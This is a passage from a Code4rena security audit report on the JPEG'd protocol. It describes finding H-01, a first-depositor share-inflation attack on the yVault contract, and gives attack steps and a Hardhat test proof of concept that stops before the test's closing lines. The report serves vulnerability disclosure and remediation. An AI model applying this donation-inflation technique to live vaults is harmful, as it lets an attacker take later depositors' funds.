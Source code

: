 C4 assesses the severity of disclosed vulnerabilities according to a methodology based on [OWASP standards](https://owasp.org/www-community/OWASP_Risk_Rating_Methodology).

Vulnerabilities are divided into three primary risk categories: high, medium, and low/non-critical.

High-level considerations for vulnerabilities span the following key areas when conducting assessments:

- Malicious Input Handling
- Escalation of privileges
- Arithmetic
- Gas use

Further information regarding the severity criteria referenced throughout the submission review process, please refer to the documentation provided on [the C4 website](https://code4rena.com).

# High Risk Findings (9)
## [[H-01] yVault: First depositor can break minting of shares](https://github.com/code-423n4/2022-04-jpegd-findings/issues/12)
_Submitted by hickuphh3, also found by 0xDjango, berndartmueller, cmichel, hyh, and WatchPug_

[yVault.sol#L148-L153](https://github.com/code-423n4/2022-04-jpegd/blob/main/contracts/vaults/yVault/yVault.sol#L148-L153)<br>

The attack vector and impact is the same as [TOB-YEARN-003](https://github.com/yearn/yearn-security/blob/master/audits/20210719\_ToB_yearn_vaultsv2/ToB\_-\_Yearn_Vault_v\_2\_Smart_Contracts_Audit_Report.pdf), where users may not receive shares in exchange for their deposits if the total asset amount has been manipulated through a large “donation”.

### Proof of Concept

*   Attacker deposits 1 wei to mint 1 share
*   Attacker transfers exorbitant amount to the `StrategyPUSDConvex` contract to greatly inflate the share’s price. Note that the strategy deposits its entire balance into Convex when its `deposit()` function is called.
*   Subsequent depositors instead have to deposit an equivalent sum to avoid minting 0 shares. Otherwise, their deposits accrue to the attacker who holds the only share.

Insert this test into [`yVault.ts`](https://github.com/code-423n4/2022-04-jpegd/blob/main/tests/yVault.ts).

```jsx
it.only("will cause 0 share issuance", async () => {
  // mint 10k + 1 wei tokens to user1
  // mint 10k tokens to owner
  let depositAmount = units(10_000);
  await token.mint(user1.address, depositAmount.add(1));
  await token.mint(owner.address, depositAmount);
  // token approval to yVault
  await token.connect(user1).approve(yVault.address, 1);
  await token.connect(owner).approve(yVault.address, depositAmount);
  
  // 1. user1 mints 1 wei = 1 share
  await yVault.connect(user1).deposit(1);
  
  // 2. do huge transfer of 10k to strategy
  // to greatly inflate share price (1 share = 10k + 1 wei)
  await token.connect(user1).transfer(strategy.address, depositAmount);
  
  // 3. owner deposits 10k
  await yVault.connect(owner).deposit(depositAmount);
  // receives 0 shares in return
  expect(await yVault.balanceOf(owner.address)).to.equal(0);

```